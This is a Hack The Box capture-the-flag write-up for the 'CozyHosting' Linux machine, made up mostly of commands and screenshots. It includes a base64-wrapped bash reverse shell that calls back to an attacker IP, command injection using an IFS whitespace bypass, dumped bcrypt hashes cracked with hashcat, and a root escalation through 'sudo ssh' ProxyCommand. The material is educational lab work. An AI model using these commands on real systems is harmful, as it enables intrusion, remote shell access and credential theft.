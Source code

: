 ```yaml
---
layout: single
title: CozyHosting - Hack The Box
excerpt: "CozyHosting is an easy-difficulty Linux machine that features a `Spring Boot` application. The application has the `Actuator` endpoint enabled. Enumerating the endpoint leads to the discovery of a user&amp;#039;s session cookie, leading to authenticated access to the main dashboard. The application is vulnerable to command injection, which is leveraged to gain a reverse shell on the remote machine. Enumerating the application&amp;#039;s `JAR` file, hardcoded credentials are discovered and used to log into the local database. The database contains a hashed password, which once cracked is used to log into the machine as the user `josh`. The user is allowed to run `ssh` as `root`, which is leveraged to fully escalate privileges."
date: 2025-05-12
classes: wide
header:
  teaser: /img2/cozyhosting.PNG
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Linux
  - Easy
tags:
  - Cookie Hijacking
  - Command Injection + Filter Bypass
  - JAR archive inspection with JD-GUI + Information Leakage
  - PostgreSQL Database Enumeration
  - Cracking Hashes
  - Abusing Sudoers Privilege (ssh) [Privilege Escalation]
---
```



## Reconnaissance

- Nmap

```bash
nmap -sS --open -p- --min-rate 5000 -vvv -n -Pn 10.10.11.230
```

![](/img2/Pasted%20image%2020250512101440.png)

- Add domain to local DNS

```bash
echo "10.10.11.230 cozyhosting.htb" >> /etc/hosts
```

- Whatweb

```bash
whatweb http://cozyhosting.htb
```

![](/img2/Pasted%20image%2020250512101928.png)

- Dirsearch 

```bash
dirsearch -u http://cozyhosting.htb
```

![](/img2/Pasted%20image%2020250512110733.png)

## Exploitation

- Cookie Hijaking 

![](/img2/Pasted%20image%2020250512110918.png)

![](/img2/Pasted%20image%2020250512111041.png)

- RCE

![](/img2/Pasted%20image%2020250512113314.png)

![](/img2/Pasted%20image%2020250512113358.png)

> We can see the output command in the error

![](/img2/Pasted%20image%2020250512113618.png)

```bash
tcpdump -i tun0 icmp
```

![](/img2/Pasted%20image%2020250512113743.png)

> We can bypass whitespaces with IFS variable

- Send reverse shell

```bash
echo "bash -c 'bash -i >& /dev/tcp/10.10.16.2/9000 0>&1'" | base64
```

![](/img2/Pasted%20image%2020250512115021.png)

## Post-exploitation

- Inspect .jar file

```bash
python3 -m http.server 8000
```

```bash
curl -o cozy.jar http://10.10.11.230:8000/cloudhosting-0.0.1.jar
```

- Connect to Postgresql Database

```bash
jd-gui
```

![](/img2/Pasted%20image%2020250512120446.png)

```bash
psql -h localhost -U postgres -d cozyhosting
```

```sql
select * from users;
```

![](/img2/Pasted%20image%2020250512121534.png)

```
$2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6e
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm
```

```bash
hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt
```

![](/img2/Pasted%20image%2020250512121722.png)

- Pivoting

```bash
su josh
```

- Sudoers

```bash
sudo -l
```

![](/img2/Pasted%20image%2020250512122137.png)

```bash
sudo ssh -o ProxyCommand=';bash 0<&2 1>&2' x
```

![](/img2/Pasted%20image%2020250512122042.png)